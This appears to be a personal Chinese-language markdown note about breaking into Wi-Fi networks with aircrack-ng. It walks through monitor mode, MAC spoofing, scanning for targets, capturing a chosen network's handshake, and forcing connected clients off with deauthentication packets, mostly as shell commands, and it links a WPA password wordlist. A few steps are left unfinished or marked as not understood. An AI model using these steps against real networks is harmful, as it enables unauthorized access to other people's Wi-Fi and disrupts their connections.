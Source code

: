 [安全渗透？](https://wizardforcel.gitbooks.io/daxueba-kali-linux-tutorial/content/50.html)
[wifi 字典](https://github.com/conwnet/wpa-dictionary)

wifi的客户端在这统一称为接入点。
连接wifi的机器统一称为客户端。
### 下载工具 aircrack

### 打开监听模式
```
airmon-ng start wlp  //wlp0 => wlp0mon
// 如果因为 rfkill 报错
rfkill lsit
rfkill unblock all
```
### 更改本机 MAC 地址
```
sudo apt-get install macchanger // 下载
macchanger wlp0mon // 查看本机 mac
ifconfig wlp0mon down  // 停止 wlp0mon 接口
macchanger --mac 11:22:33:44:55 wlp0mon
macchanger wlp0mon  // 查看 mac 地址是否更改
// ifconfig wlp3s0mon up ???? 需要吗
```
### 获取附近wifi
#### airodump-ng 输出信息的参数说明
- BSSID：无线的IP地址。
- PWR：网卡报告的信号水平。
-  Beacons：无线发出的通告编号。
-  Data：被捕获到的数据分组的数量，包括广播分组。
-  /s：过去10秒钟内每秒捕获数据分组的数量。
-  CH：信道号（从Beacons中获取）。
-  MB：无线所支持的最大速率。如果MB=11，它是802.11b；如果MB=22，它是802.11b+；如果更高就是802.11g。后面的点（高于54之后）表明支持短前导码。
-  ENC：使用的加密算法体系。OPN表示无加密。WEP？表示WEP或者WPA/WPA2模式，WEP（没有问号）表示静态或动态WEP。如果出现TKIP或CCMP，那么就是WPA/WPA2。
-  CIPHER：检测到的加密算法，是CCMP、WRAAP、TKIP、WEP和WEP104中的一个。典型的来说（不一定），TKIP与WPA结合使用，CCMP与WPA2结合使用。如果密钥索引值大于0，显示为WEP40。标准情况下，索引0-3是40bit，104bit应该是0。
-  AUTH：使用的认证协议。常用的有MGT（WPA/WPA2使用独立的认证服务器，平时我们常说的802.1x、radius和eap等）、SKA（WEP的共享密钥）、PSK（WPA/WPA2的预共享密钥）或者OPN（WEP开放式）。
-  ESSID：指所谓的SSID号。如果启用隐藏的SSID的话，它可以为空。这种情况下，airodump-ng试图从proberesponses和associationrequests中获取SSID。
-  STATION：客户端的MAC地址，包括连上的和想要搜索无线来连接的客户端。如果客户端没有连接上，就在BSSID下显示“notassociated”。
-  Rate：表示传输率。
-  Lost：在过去10秒钟内丢失的数据分组，基于序列号检测。它意味着从客户端来的数据丢包，每个非管理帧中都有一个序列号字段，把刚接收到的那个帧中的序列号和前一个帧中的序列号一减就能知道丢了几个包。
-  Frames：客户端发送的数据分组数量。
-  Probe：被客户端查探的ESSID。如果客户端正试图连接一个无线，但是没有连接上，那么就显示在这里。

#### 获取wifi
```
airodump-ng wlp0mon  //	查看附近wifi，选择目标，记录相关参数
```

### 获取目标wifi的握手信息
#### 暗中观察
```
airodump-ng --ivs -c 3 -w wifi_crack wlp0mon // 就那些参数（--ivs,有用的留下)
airodump-ng -w wifi_crack -c 3 --bssid AA:AA:AA:AA:AA wlp0mon  // 一样的，不用重复
//注意出现连接接入点的客户端（`STATION`）的Mac地址，下一步需要使用它的Mac地址。 持续监听....	

```
####  aireplay-ng 加快。。握手
##### [测试注入](https://www.aircrack-ng.org/doku.php?id=injection_test)
```
aireplay-ng -9 -e essid -a 00:de:ad:ca:fe:00 (-i ap_?) wlpmon
aireplay-ng -9 wlpmon
```
##### 迫使重连为上一步获取握手信息
```
// 伪造的身份验证数据包从您的计算机发送到连接到您尝试破解的网络的客户端
// 收到这样的数据包后，大多数客户端断开与网络的连接，并立即重新连接
// 这样就可以让 ariodump-ng 获取到握手信息
// 下面好几种方法，也不懂
aireplay-ng -0 2 -a AA:AA:AA:AA:AA -c BB:BB:BB:BB:BB wlp0mon //伪造接入点向客户端发送2个解除认证的数据包，可以增加这个数字...还是伪造接入点向客户端发送解除认证的数据包啊

aireplay-ng -0 2 -a AA:AA:AA:AA:AA wlp0mon // 广播解除认证数据包到所有连接的客户端(不是所有的客户端都会响应广播解除认证)

aireplay-ng -1 0 -a [BSSID] -h [our Chosen MAC address] -e [ESSID] [Interface]
aireplay-ng --dauth 1 -a [BSSID] -c [our Chosen MAC address] [Interface] // our Chosen Mac address 是我们本机的MAC地址(改过的：11:22:33:44:55)


```

aireplay-ng -3 -b AP的mac -h 客户端的mac mon0 


#### 错误
一直收到 [0 | 0 acss], 更新以下内核？ `更新kali，当前内核为5.2：apt update && apt dist-upgrade`
### 生成字典文件



### 其他
一般驱动不支持数据包注入，导致 aireplay-ng 不能发送包，所以需要[安装驱动补丁](http://www.aircrack-ng.org/doku.php?id=install_drivers)。

```
rfkill list
rfkill unblock all
airmon-ng check kill          (之后需要：NetworkManager start)
```

### 测试注入
搞不来



